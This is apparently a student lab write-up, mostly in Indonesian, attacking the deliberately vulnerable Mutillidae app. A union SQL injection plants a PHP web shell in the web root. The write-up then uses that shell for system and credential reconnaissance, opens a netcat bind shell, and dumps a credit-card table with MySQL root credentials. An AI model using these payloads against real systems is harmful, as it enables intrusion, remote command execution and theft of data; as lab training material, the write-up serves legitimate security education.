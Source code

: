 # Lesson 10 : SQL Injection Union Exploit #3 (Create PHP Execution Script)

## Start Web Browser Session to Mutillidae
- Buka browser kemudian akses Mutillidae sesuai ip metasploit pada alamat http://10.0.1.100/mutillidae
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_6/1/start_browser.png "Home page")

## Go To User Info Page
1. Go to User Info
   - **OWASP Top 10 --> A1 - SQL Injection --> SQLi - Extract Data --> User Info** 
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_7/user_info.png "Home page")

## Inject Backdoor into User Info Page
1. Inspect the Name Textbox
   - Klik kanan pada textbox **Name**, kemudian inspect element
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/inspect.png "Home page")
2. Change Text Box Size
   - Pada bagian size, tambahkan kapasistasnya dari yg semula 20 menjadi 100
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_8/change_size.png "Home page")
3. Second Union SQL Injection Attempt
   - Pada kolom textbox **Name** isikan 
   ```bash
	' union select null,null,null,null,'<form action="" method="post" enctype="application/x-www-form-urlencoded"><input type="text" name="CMD" size="50"><input type="submit" value="Execute Command" /></form><?php echo "<pre>";echo shell_exec($_REQUEST["CMD"]);echo "</pre>"; ?>' INTO DUMPFILE '/var/www/html/mutillidae/execute_command.php' -- 
   ```
   - Pastikan anda menambahkan spasi setelah karakter **`--`**
   - Klik tombol **View Account Details**
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/union.png "Home page")
4. Viewing the Results
	- Scroll kebawah untuk melihat hasilnya
	- Perhatikan hasilnya
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_9/result_union_2.png "Home page")

## Using the Backdoor for Basic Reconnaissance
1. Initial Reconnaissance
	- Buka url berikut pada browser 
	http://10.0.1.100/mutillidae/execute_command.php
	- Ketikkan perintah berikut pada textbox:
	```bash
   whoami; pwd
   ```
	- Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/whoami.png "Home page")
2. Who is Logged On
   - Ketikkan perintah berikut pada textbox:
	```bash
   w
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/w.png "Home page")
3. Exploring /etc/passwd
   - Ketikkan perintah berikut pada textbox:
	```bash
   cat /etc/passwd
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_passwd.png "Home page")
4. Network Reconnaissance
   - Ketikkan perintah berikut pada textbox:
   ```bash
   netstat -nao | grep "0.0.0.0:"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/netstat.png "Home page")

## Using the Backdoor for Database Reconnaissance
1. Database Reconnaissance
   - Ketikkan perintah berikut pada textbox:
   ```bash
   find * -name "*.php" | xargs grep -i "password" | grep "="
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/find.png "Home page")
2. View Database Authentication Attributes
   - Ketikkan perintah berikut pada textbox:
   ```bash
   cat config.inc | grep -v "<?php"
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/cat_config.png "Home page")

##  Using the Backdoor for Netcat Reconnaissance
1. Netcat Reconnaissance
   - Ketikkan perintah berikut pada textbox:
   ```bash
   which nc; netstat -nao | grep 4444 | wc -l
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/which_nc.png "Home page")
2. Execute Netcat
   - Ketikkan perintah berikut pada textbox
   ```bash
   mkfifo /tmp/pipe;sh /tmp/pipe | nc -lp 4444 -e /bin/bash> /tmp/pipe
   ```
   - Klik tombol Execute Command
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/mkfifo.png "Home page")
3. Open another terminal window
	- Buka terminal lain pada kali linux
4. Connect to Netcat
   - Buka koneksi ke mutillidae menggunakan netcat
   - Ketikkan perintah : **`nc 10.0.1.100 4444`**
   - Ketikkan perintah : **`hostname`** untuk melihat hostname
   - Ketikkan perintah : **`whoami`** untuk melihat user yang digunakan
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_nc.png "Home page")
5. View Credit Card Information
   - Pada terminal ketikkan printah-perintah berikut :
   ```bash
   echo "show databases;" | mysql -uroot -psamurai
   echo "use nowasp; show tables;" | mysql -uroot -psamurai
   echo "select * from nowasp.credit_cards;" | mysql -uroot -psamurai
   ```
![alt text](https://github.com/luqmanahmads/laporan-pksj/blob/master/assets/lesson_10/terminal_data.png "Home page")

## Note
- Agar file **execute_command.php** dapat dibuat pada metasploit, pastikan anda sudah menonaktifkan apparmor
- Konfigurasi untuk menonaktifkan AppArmor ada [disini](https://github.com/luqmanahmads/laporan-pksj/blob/master/Laporan_Tugas_Final/konfigurasi_apparmor.md)